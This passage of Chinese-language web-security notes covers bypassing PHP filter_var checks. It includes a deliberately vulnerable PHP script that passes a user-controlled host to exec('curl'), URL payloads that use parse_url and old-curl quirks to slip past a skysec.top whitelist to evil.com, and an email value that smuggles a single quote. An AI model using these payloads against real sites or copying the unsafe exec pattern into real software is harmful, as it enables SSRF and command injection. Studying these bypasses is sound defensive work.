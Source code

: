 - curl<=7.47.0（win下7.55.1不可用）

**测试代码**

在如下脚本中：

```php
<?php
   $url = $_GET['url'];
   echo "Argument: ".$url."\n";
   if(filter_var($url, FILTER_VALIDATE_URL)) {
      $r = parse_url($url);
      var_dump($r);
      if(preg_match('/skysec\.top$/', $r['host'])) {
          echo 'start curl';
         exec('curl -v -s "'.$r['host'].'"', $a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
?>
```

可用payload：

```url
访问evil.com:2333
?url=0://evil.com:23333;skysec.top:80/
访问evil.top
?url=0://evil.com$skysec.top
访问evil.com:80
?url=0://evil.com:80$skysec.top
```

### FILTER_VALIDATE_EMAIL

参考

- https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html#0x03-filter_validate_email
- https://stackoverflow.com/questions/19220158/php-filter-validate-email-does-not-work-correctly

测试

测试代码如下，绕过方法为：`"Joe'Blow"@example.com`，逃逸单引号。

```php
<?php
$email = '"Joe\'Blow"@example.com';
if (filter_var($email, FILTER_VALIDATE_EMAIL))
        var_dump(filter_var($email, FILTER_VALIDATE_EMAIL));
else
        echo "email not correct";

//C:\Users\j7ur8\Desktop\test.php:4:string(22) ""Joe'Blow"@example.com"
?>
```
